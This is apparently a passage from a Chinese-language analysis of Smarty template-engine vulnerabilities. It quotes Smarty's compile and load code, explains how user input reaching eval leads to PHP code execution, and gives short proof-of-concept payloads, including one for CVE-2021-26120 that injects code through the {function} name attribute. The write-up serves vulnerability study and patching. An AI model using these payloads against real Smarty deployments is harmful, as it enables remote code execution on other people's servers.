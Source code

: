 create是生成编译文件代码的方法

```php
$output .= "/* Smarty version " . Smarty::SMARTY_VERSION . ", created on " . strftime("%Y-%m-%d %H:%M:%S") .
                   "\n  from \"" . $_template->source->filepath . "\" */\n\n";
```

我们来loadCompiledTemplate

```php
    private function loadCompiledTemplate(Smarty_Internal_Template $_smarty_tpl)
    {
        if (function_exists('opcache_invalidate') && strlen(ini_get("opcache.restrict_api")) < 1) {
            opcache_invalidate($this->filepath, true);
        } elseif (function_exists('apc_compile_file')) {
            apc_compile_file($this->filepath);
        }
        if (defined('HHVM_VERSION')) {
            eval("?>" . file_get_contents($this->filepath));
        } else {
            include($this->filepath);
        }
    }
```

这里

```php
eval("?>" . file_get_contents($this->filepath));
```

使用了eval函数，从而造成了漏洞，用户在display输入的内容最终会被编译到编译文件代码，然后loadCompiledTemplate中会执行编译文件代码，如果我们输入的内容可以在编译文件代码中可以实现闭合，那么我们就可以实现php任意代码执行。

```php
?data=*/phpinfo();//
```

CVE-2021-26120
--------------

### 概述

环境搭建：[Release v3.1.38 · smarty-php/smarty (github.com)](https://github.com/smarty-php/smarty/releases/tag/v3.1.38)

版本信息 ：Smarty &lt;3.1.39

测试版本 ：Smarty v3.1.38

漏洞描述：{function}中的name属性可以被用户构造，注入恶意代码。

poc：

```php
string:{function name='rce(){};phpinfo();function '}{/function}
```
